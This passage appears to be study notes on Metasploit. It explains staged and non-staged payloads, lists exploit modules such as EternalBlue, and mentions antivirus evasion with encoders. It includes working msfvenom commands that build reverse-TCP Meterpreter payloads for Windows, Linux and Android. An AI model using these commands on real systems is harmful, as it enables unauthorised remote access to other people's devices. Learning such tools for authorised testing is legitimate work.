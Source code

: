 - The payload on this type is Delivered in multiple parts:
    - First stage: Small loader is sent to the target.
    - Second stage: The loader fetches and executes the larger payload.
- Example: ===> *windows/meterpreter/reverse_tcp* sends a small piece of code first, then pulls the larger Meterpreter shell.
- The Shell and Connection part is connected with “/” 
- The Purpose of Doing this is:
    - The initial payload is small, reducing the chances of detection.
    - Allows for more complex functionality like Meterpreter sessions.

2. **Non-staged Payload**

- The Payload is Delivered in one single piece.
- Example: ===> *windows/meterpreter_reverse_tcp* delivers the entire Meterpreter payload in one go. 
- The Shell and Connection part is connected with “_” 
- Purpose:
    - Does not depend on additional network communication.
    - Only one network transaction is needed for the payload delivery.
- The Downside is:
    - The entire payload is sent at once, making it easier to detect.
    - Cannot handle as much complexity as a staged payload.

##### Creating of Payload

```bash
msfvenom -p windows/meterpreter/reverse_tcp Lhost=wlan0/eth0/ip Lport=4444 -f exe > payload.exe
msfvenom -p linux/x86/meterpreter/reverse_tcp Lhost=eth0 Lport=5555 -f elf > payload.exe
msfvenom -p android/meterpreter/reverse_tcp Lhost=eth0 Lport=6666 -f apk > payload.apk
```

### Exploits on MSF

- **Exploits** are scripts or modules used to take advantage of vulnerabilities in a system. 
- Each exploit module in Metasploit is designed for a specific type of vulnerability and targets a particular operating system.
- The exploits are located in */usr/share/metasploit-framework/modules/exploits/*
- Exploit Example Formatting:
    - Exploit: exploit/windows/smb/ms17_010_eternalblue
        - OS: Windows
        - Vulnerability: CVE-2017-0144 (EternalBlue)
    - Exploit: exploit/linux/samba/is_known_pipename
        - OS: Linux
        - Vulnerability: Samba SMB vulnerability

##### Problems

- Metasploit is a very old tool and even the encoders are very old.
- This means almost every users tried them to Create Payloads and exploited for some time but now a days all the antivirus and Microsoft defender will detect them.
- But it is Still handy tool for other exploitation and Scanning, you will see it in the future use.
- If you want to test these encoders on your system(if it is vulnerable for some of reason).
- Just add **-e** and the encoder name from the list and create the payload.
